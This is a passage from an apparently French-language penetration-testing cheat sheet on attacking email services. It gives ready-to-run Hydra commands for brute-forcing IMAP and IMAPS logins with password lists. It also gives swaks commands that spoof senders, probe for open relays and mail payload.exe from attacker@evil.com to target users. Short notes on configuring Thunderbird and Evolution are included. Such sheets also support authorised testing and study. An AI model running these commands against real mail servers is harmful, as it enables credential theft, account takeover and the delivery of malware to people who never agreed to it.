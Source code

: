### Brute Force IMAP avec Hydra
```bash
# Brute force IMAP
hydra -l admin -P passwords.txt imap://target

# Avec liste d'utilisateurs
hydra -L users.txt -P passwords.txt imap://target

# IMAPS (SSL)
hydra -l admin -P passwords.txt imaps://target

# Options recommandées
hydra -L users.txt -P passwords.txt -t 16 -f imap://target
```

---

## 🔧 4. Outils spécialisés email

### Evolution Data Server (pour IMAP/POP3)
```bash
# Connexion IMAP avec evolution
evolution --offline

# Configuration manuelle
# Edit → Preferences → Mail Accounts → Add
```

### Thunderbird (Client email)
```bash
# Configuration manuelle
# File → New → Existing Mail Account
# Server: target, Port: 143/993/110/995
# Security: None/SSL/TLS
```

### swaks (Swiss Army Knife SMTP)
```bash
# Installation
apt install swaks

# Test SMTP basique
swaks --to victim@target.com --from attacker@evil.com --server target

# Avec authentification
swaks --to user@target.com --from user@target.com --server target --auth LOGIN --auth-user user --auth-password password

# Test open relay
swaks --to external@gmail.com --from fake@target.com --server target

# Avec attachment
swaks --to user@target.com --from attacker@evil.com --server target --attach payload.exe
```

---